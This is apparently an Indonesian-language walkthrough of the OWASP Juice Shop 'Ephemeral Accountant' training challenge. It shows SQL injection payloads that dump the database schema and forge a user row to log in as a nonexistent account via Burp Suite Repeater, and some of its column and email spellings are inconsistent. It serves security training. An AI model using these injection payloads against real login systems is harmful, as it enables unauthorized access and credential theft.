

# Ephemeral Accountant

## Link Resource

https://juice-shop.herokuapp.com/#/score-board?categories=Injection&showDisabledChallenges=false

## Jawaban + Bukti


### Step-by-step


1. pada soal kali ini kita diminta untuk masuk menggunakan akun (yang tidak ada) `acc0unt4nt@juice-sh.op` tanpa pernah mendaftarkan pengguna tersebut.



2. kita dapat menggunakan payload berikut untuk menyadap informasi struktur tabel (schema) dari database dan kita dapat mengetahui

```
foobar')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--
```

3. yang mana kemudian kita dapat mendapatkan struktur tabel Users di database.

```
"CREATE TABLE `Users` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `username` VARCHAR(255) DEFAULT '', `email` VARCHAR(255) UNIQUE, `password` VARCHAR(255), `role` VARCHAR(255) DEFAULT 'customer', `deluxeToken` VARCHAR(255) DEFAULT '', `lastLoginIp` VARCHAR(255) DEFAULT '0.0.0.0', `profileImage` VARCHAR(255) DEFAULT '/assets/public/images/uploads/default.svg', `totpSecret` VARCHAR(255) DEFAULT '', `isActive` TINYINT(1) DEFAULT 1, `createdAt` DATETIME NOT NULL, `updatedAt` DATETIME NOT NULL, `deletedAt` DATETIME)"
```

4. kemudian kita dapat membuat user palsu mengguankan payload berikut

```
' UNION SELECT * FROM (SELECT 200 AS 'id', '' AS 'username', 'accoUnt4nt@juice-sh.op' AS 'email', 'abcd1234' AS 'password', 'accountant' AS 'role', '127.0.0.1' AS 'lastLoginIp', '' AS 'profileImage', '' AS 'totpSecret', '' AS 'isActive', '' AS 'createdAt', '' AS 'updatedAt', '' AS 'deluxToken', NULL AS 'deletedAt')--
```

5. kemudian kita dapat menggunakan burpsuite untuk menyusupkan payload menggunakan user dengan membypass sistem


6. setelah itu kita send to repeater dan ubah bagian email dengan payload berikut :

```sh
'UNION SELECT * FROM (SELECT 20 AS 'id','' AS 'username','acc0unt4nt@juice-sh.op' AS 'email','abcd1234' AS 'password','accounting' AS 'role','127.0.0.1' AS 'lastLoginIp','' AS 'profileImage','' AS 'topSecret',1 AS 'isactive','' AS 'createdAt','' AS 'updatedAt','123' AS 'deluxToken',NULL AS 'deletedAt')--
```

7. kemudian saat sudah memasukkan payload lalu melakukan send


### Catatan

-
